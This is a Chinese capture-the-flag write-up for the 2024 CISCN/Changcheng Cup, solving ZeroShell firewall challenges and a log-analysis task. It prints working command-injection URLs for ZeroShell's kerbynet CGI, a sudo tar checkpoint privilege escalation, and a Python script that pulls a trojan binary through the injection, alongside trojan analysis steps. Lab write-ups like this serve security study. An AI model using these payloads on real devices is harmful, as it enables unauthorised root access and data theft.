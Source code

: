 # 2024 CISCN &amp; 长城杯铁人三项 部分 Wp

# 前言
为队友做了一些贡献，解题很少请大家多多体谅
## zeroshell_1
1. 从数据包中找出攻击者利用漏洞开展攻击的会话（攻击者执行了一条命令），写出该会话中设置的flag, 结果提交形式：flag{xxxxxxxxx}

根据网站特征分析可能存在历史漏洞，百度搜索找到相关漏洞利用

[https://zhuanlan.zhihu.com/p/630496065](https://zhuanlan.zhihu.com/p/630496065)

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216205739007.png &#34;img&#34;)

链接：[http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&amp;Section=NoAuthREQ&amp;User=&amp;x509type=%27%0Aid%0A%27](http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&amp;Section=NoAuthREQ&amp;User=&amp;x509type=%27%0Aid%0A%27)
访问后，确认存在该漏洞

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216205827328.png &#34;img&#34;)

流量分析语句：
http.request.method == &#34;GET&#34;，再通过 Ctrl&#43;F 切换为字符串，搜索 type

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216205851735.png &#34;img&#34;)

打开数据包，通过题目描述，疑似如会话(Session)这种长度格式，尝试解密

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216205914892.png &#34;img&#34;)

结果

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216205931218.png &#34;img&#34;)

flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}
### zeroshell_2
2. 通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容，结果提交形式：flag{xxxxxxxxxx}

根据之前的流量包，我们可以知道攻击者利用了 [sudo](https://blog.csdn.net/negnegil/article/details/120090266) 提权，我们可以直接拿过来使用

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210233737.png &#34;img&#34;)

通过测试可以知道提权成功，返回的结果是 uid=0(root)，root 为超级用户

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210251642.png &#34;img&#34;)

通过分析漏洞生成的 URL，对命令进行加密
第一步，查找 flag 文件
未加密前：
&#39;find / type f -name &#34;flag&#34;&#39;
&#39;
URL 加密后：
%27find%20%2F%20type%20f%20-name%20%22flag%22%27%0A%27
运行结果

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210412107.png &#34;img&#34;)


第二步，查看 flag 文件
cat /DB/_Db.001/flag
%27cat%20%2FDB%2F_Db.001%2Fflag%27%0A%27

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210446810.png &#34;img&#34;)

flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

## zeroshell_3
3. 找出受控机防火墙设备中驻留木马的外联域名或IP地址，结果提交形式：flag{xxxx}，如flag{www\.abc.com} 或 flag{16.122.33.44}

根据题目内容，觉得可能是通过运行木马然后查看回连地址
ls -al 查看当前目录的文件，发现 kerbynet

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210807440.png &#34;img&#34;)

cat kerbynet 查看文件，发现是 ELF，怀疑是木马

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210824178.png &#34;img&#34;)

思路，尝试运行这个文件，然后通过 netstat -antlp 查看是否存在回连地址

第一步，运行 ./kerbynet

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210847073.png &#34;img&#34;)

第二步，查看 netstat -antlp

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216210902843.png &#34;img&#34;)

flag{202.115.89.103}

## zeroshell_4
4. 请写出木马进程执行的本体文件的名称，结果提交形式：flag{xxxxx}，仅写文件名不加路径

根据题目内容，怀疑是 kerbynet 的本体文件

在第三步的前提上，运行了 ./kerbynet 后
ps -T -p 10937

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216211105798.png &#34;img&#34;)

查找木马进程执行的本体文件
find / -name &#34;.nginx&#34;

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216211127254.png &#34;img&#34;)

flag{.nginx}

## zeroshell_5
5. 请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥，结果提交形式：flag{xxxx}

根据题目内容，猜测是逆向找字符串

首先
cat /tmp/.nginx，查看文件是 ELF。通过之前的题目，确认是木马文件

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216211222912.png &#34;img&#34;)

使用 python 脚本提取响应另存为文件

```python
import requests  
url = &#34;http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&amp;Section=NoAuthREQ&amp;User=&amp;x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec=%27cat%20%2Ftmp%2F.nginx%27%0A%27&#34;  
resp = requests.get(url)  
  
if resp.status_code == 200:  
   with open(&#39;nginx&#39;,&#39;wb&#39;) as f:  
       f.write(resp.content)  
   print(&#34;文件保存成功&#34;)  
else:  
   print(&#34;文件保存失败&#34;)
```

通过微步云沙箱分析，确认是木马文件

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216211317342.png &#34;img&#34;)

通过查壳工具，确认为32位程序

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216211333406.png &#34;img&#34;)

打开 IDA 32拖入程序后，Shift&#43;12 查看所有字符串，挨个查看发现密钥字符串

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216211345825.png &#34;img&#34;)

flag{11223344qweasdzxc}

## sc05_1
问题1：IP1地址首次被请求时间是多久？计算内容如：2020/05/18_19:35:10 提交格式：flag{32位大写MD5值}

通过题目描述，可以使用筛选，目的IP 筛选 134.6.4.12 和 开始时间进行升序排列

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216221412635.png &#34;img&#34;)

MD5后的结果

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216221424412.png &#34;img&#34;)

再大写

![img](https://cdn.ctfer.fun/gh/youcs233/blog-img/cdnimg/20241216221438912.png &#34;img&#34;)

flag{01DF5BC2388E287D4CC8F11EA4D31929}

---

> 作者: Youcs  
> URL: http://youcs233.github.io/posts/ciscn-changcheng-wp/  

